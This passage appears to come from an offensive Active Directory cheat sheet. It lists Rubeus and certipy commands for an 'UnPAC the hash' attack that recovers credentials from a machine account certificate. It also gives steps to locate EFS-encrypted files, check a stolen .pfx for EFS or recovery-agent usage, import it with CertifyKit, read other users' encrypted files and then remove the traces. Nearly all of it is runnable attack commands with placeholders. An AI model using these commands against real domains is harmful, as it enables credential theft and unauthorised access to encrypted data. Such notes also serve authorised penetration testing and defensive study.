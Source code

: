 #### UnPAC the hash attack

```
.\Rubeus.exe asktgt /getcredentials /user:<COMPUTERACCOUNT>$ /certificate:<PATH TO PFX> /password:<PASSWORD OF PFX> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /show
```

```
certipy auth -pfx '<PATH TO cert.pfx>' -dc-ip <DC IP>
```

### Encrypted File System
- EFS can be used to encrypt files. An EFS certificate is required to be imported into the current user's certificate store and permission to modify the target file is required.
- A recovery agent is required to read or recover data encrypted using EFS - The default DA is a recovery agent in a domain
- Microsoft details two methods to perform decryption operations:
	- Retrieve the original EFS certificate used to encrypt the file and import it in the target computer certificate store.
	- Use an EFS DRA certificate to restore an EFS encrypted file if the original EFS certificate used to encrypt the file is lost.

#### Locate encrypted files
- `/h` Displays files with hidden or system attributes. By default, these files are not encrypted or decrypted.
- `/u /n` Finds all encrypted files on the local drive(s). If used with the **/n** parameter, no updates are made.
```
cipher /u /n /h
```

#### Check .pfx file for EFS EKU
- Check for EKU
	- `Encrypting File System certificates` (`1.3.6.1.4.1.311.10.3.4`) This type of certificate uses EFS to encrypt and decrypt data and is called as an EFS certificate.
	- `File Recovery certificates` (`1.3.6.1.4.1.311.10.3.4.1:)` This type of certificate allows to recover all encrypted files and folders (domain or offline) no matter who encrypted them and is called as an EFS DRA (Data Recovery Agent) certificate. 

```
certutil -v -dump -p <PASSWORD> <PATH TO PFX>
```

#### Import EFS certificate
```
.\CertifyKit.exe list /certificate:<PATH TO EFS .pfx> /storename:My /install
```

#### Read the encrypted file
```
type <FILE>
```

#### Cleanup
```
.\CertifyKit.exe list
.\CertifyKit.exe list /certificate:<FINGERPRINT> /storename:My /remove
```
